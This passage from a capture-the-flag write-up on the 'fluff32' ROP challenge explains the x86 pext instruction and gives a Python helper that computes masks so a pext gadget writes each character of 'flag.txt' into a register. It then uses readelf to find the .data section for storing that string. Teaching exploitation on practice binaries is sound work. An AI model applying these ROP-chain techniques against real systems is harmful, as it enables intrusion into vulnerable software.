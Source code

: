 Perfect, we have everything in terms of gadgets, and we can exit ropper (with the command `quit`). Still, there’s one question left: what will be the value of `ebp` when we use the gadget that performs `pext`?

To answer this question, we need to learn about the [`pext`](https://www.felixcloutier.com/x86/pext) operation and write an 'oposite' algorithm that, given a desired output from `pext` (One of the characters in the string "flag.txt" in our case) and a value (`0xb0bababa` in this case), generates a mask. This algorithm is very simple, and I've written it in Python. All it does is iterate simultaneously over the bits of the value and the desired output, and when they match, it adds 1 to the mask; otherwise, it adds 0 and continues with the value in search of the next bit that matches the desired output.

```python
def get_mask(target, value=0xb0bababa):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]
    mask_bits   = ''
    
    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]
    
    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]
    
    return int(mask_bits, 2)

# get_mask("f") == 0x4f454b4b
# It means,
#     pext edx, 0xb0bababa, 0x4f454b4b
# Causes the binary value of `f` to be stored in `edx` (edx = 0x00000066)
```

The second loop in the algorithm aims to also add the other 0s present in the value being processed, because we want to achieve a 4-byte output without a null byte.

We will use the same memory area of the data section to ultimately store the entire string "flag.txt".

```
readelf -S fluff32 | grep -e '[.]data'
```
![](./6.png)
